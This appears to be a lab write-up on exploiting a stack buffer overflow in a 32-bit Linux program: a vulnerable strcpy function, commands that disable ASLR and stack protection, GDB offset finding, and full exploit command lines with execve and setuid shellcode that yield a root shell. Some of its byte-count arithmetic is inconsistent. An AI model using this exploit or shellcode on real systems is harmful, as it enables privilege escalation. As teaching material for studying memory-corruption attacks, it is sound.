 # Stack based buffer-overflow on Cent OS(or any x32 linux OS)

Stack grows from high address to low address (while buffer grows from low - high address) 

Vuln.c is a c program that has a function strcopy (buf, name) that will allow more read of bytes than the buffer size (100) from the second argument.

```python
  void func(char *name){
    char buf[100];
    strcpy(buf, name); // The following statement has a buffer overflow problem
    printf("Welcome %s\n", buf);
  }
```
The function strcpy() does not check whether the boundary of buf[] has reached. It simply copies the contents from name to buffer[] and only stops when seeing the end-of-string character ‘\0’. If the string pointed by buf has more than 100 chars, contents in the memory above buf [] will be overwritten by the characters at the end of name.  So, this leads to stack-based buffer overflow and we can overwrite anything that can come after that buffer. Thus, we know the vulnerability and we can prepare an exploit.

<b>Address space layout randomization (ASLR)</b> causes the addresses of the stack to be randomized. This causes a lot of difficulty in predicting addresses while exploitation. As ASLR is disabled we are sure that no matter how many times the binary is run, the address of buf will not change. Thus, ASLR is turned off on root first by the command:
```python
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

•	Vuln.c is compiled in root using: 
```python
gcc vuln.c -o vuln -fno-stackprotector -z execstack
```
-g tells GCC to add extra information for GDB

-fno-stackprotector is a flag to turn off stack protection mechanism

-z execstack makes the vuln file stack executable

•	I set permission of the vuln file as an executable binary that is owned by root, has the suid bit set to be user executable, and is vulnerable to buffer overflow. Mainly, it is set like this for debugging by the gdb( GNU debugger).

# Procedures in GDB:

<b>a. Find out where the start of the buffer is in memory: </b>

```python
(gdb) print $ebp
$1 = (void *) 0xbfffeb38
(gdb) print $ebp - 0x6c
$2 = (void *) 0xbfffeacc
(gdb) quit
A debugging session is active.
```

 buf lies at ebp - 0x6c.
 0x6c is 108(100 + framept(4-current+4-prev) in decimal, Disassemble main method and it will show dump of registers. 
 Look for the part where is function call: ebp is the base of stack pointer which I will use instead of $esp. However, EBP is a pointer to the top of the stack when the func() is first called. So, I thought this as offset bytes before.

print $ebp - 0x6c will give start of the buffer.

<b>b. Fill the register with appropriate size NOP (X90)</b>

We fill the first 40 bytes with NOP instructions, constructing a NOP Sled. It makes the processor jump to the address of buf (taken from gdb’s output) minus x bytes to get somewhere in the middle of the NOP sled.

Start of buffer: 0xbfffeacc - some bytes(172- ac in hex)... 0xbfffea20(roughly I used this arbitrary bytes to get somewhere in the middle of the NOP sled)  

[ Intel CPU’ we have endian structure: \x20\xea\xff\xbf ]

The reason for inserting a NOP sled before the shellcode is that now we can transfer execution flow to anyplace within these 40 bytes. The processor will keep on executing the NOP instructions until it finds the shellcode. We need not know the exact address of the shellcode. This takes care of the problem of not knowing the address of buf exactly and increases chances of getting into our shell code.

<b>c. We can fill the rest 47 (112 - 25 - 40) bytes with random data, say the ‘A’ character. </b>

This is a part to play around & 47 As might be overestimate...And return address starts after the first 112 bytes of buf. 108 +4( roughly because I ran the debugger with 104 As)
 
 Final payload structure: [40 bytes of NOP - sled] [25 bytes of shellcode] [47 times ‘A’ will occupy 49 bytes] [4 bytes pointing in the middle of the NOP - sled: 0xbfffea20]

Prepared 25 byte long shell code which tells VM to launch a shell: \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

```python
./vuln $(python -c 'print "\x90"*40 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*37 + "\x20\xea\xff\xbf"')
```
( 37 As was the right amount! )

Note that above part have code execution but not root shell access. It happens due to the protection in /bin/bash. We remove the restriction by:
setuid(0) + setgid(0) + execve("/bin/sh", ["/bin/sh", NULL])
Thus, we have 37 byte shell code to gain root access:

\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80

```python
./vuln $(python -c 'print "\x90"*40 + "\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" + "A"*27 + "\x20\xea\xff\xbf"')
Welcome ????????????????????????????????????????jX1?̀j.XS̀1?j
                                                           XRh//shh/bin??RS??̀AAAAAAAAAAAAAAAAAAAAAAAAAAA
sh-3.2# whoami
root
```
